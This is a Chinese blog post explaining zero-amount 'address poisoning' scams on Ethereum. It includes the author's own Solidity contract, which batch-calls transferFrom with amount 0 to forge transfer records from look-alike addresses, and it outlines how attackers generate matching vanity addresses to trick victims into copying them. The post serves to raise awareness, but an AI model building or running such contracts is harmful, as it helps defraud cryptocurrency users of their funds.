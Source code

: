 # 写一个 0 转账攻击合约

## 备注

时间：2024 年 7 月 7 日

作者：[33357](https://github.com/33357)

## 正文

以太坊上有大量转账 Token 数量为 0 的合约，比如这个 https://etherscan.io/address/0x6c5319df4fcca5961d71e117287c76a1f2aad593 。这些合约伪造了首尾相同的地址向用户地址转账，利用了有些人会在转账之前复制上一个地址的习惯来骗取用户资产。这里我写了一个类似功能的合约。

## 合约代码

```javascript
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.25;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ZeroTransferAttack {
    function bacthTransferFrom(
        address[] memory tokenList,
        address[] memory fromList,
        address[] memory toList
    ) external {
        for (uint256 i; i < tokenList.length; i++) {
            IERC20(tokenList[i]).transferFrom(fromList[i], toList[i], 0);
        }
    }
}
```

很多人会奇怪，没有经过 `approve` 也能调用 `transferFrom` 吗？

是的，由于 `ERC20` 合约的 `transferFrom` 方法接受数量为 `0` 的调用，而没有授权的状态就是 `0`。因此没有经过 `approve` 授权也可以调用 `transferFrom` 生成转账记录，这大大降低了进行数量为 0 转账的操作成本。

```javascript
function transferFrom(
    address sender,
    address recipient,
    uint256 amount
) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);

    uint256 currentAllowance = _allowances[sender][_msgSender()];
    require(
      currentAllowance >= amount,
      "ERC20: transfer amount exceeds allowance"
    );
    _approve(sender, _msgSender(), currentAllowance - amount);

    return true;
}
```

## 攻击分析

可以看到合约是很简单的，做数量为 0 转账攻击的门槛不在于此，而在于对链上交易数据的爬取和计算首尾相同地址私钥。这需要完整的链上数据收集和分析，并配上有强大的 hash 计算能力。

当一个地址发起一笔转账后可以跟踪并迅速计算出首尾相同地址的私钥，调用 `transferFrom` 生成一笔发起人首尾地址相同、目标地址一样、转账时间相近的记录。如果用惯了传统的金融 APP，对复制上一个交易没有警惕性，就很容易会上这种当。

## 总结

很多 APP 为了方便用户简化了地址显示，一定程度上也给了骗子可趁之机。市场也许需要一个既方便用户，又具有唯一性的地址显示方式。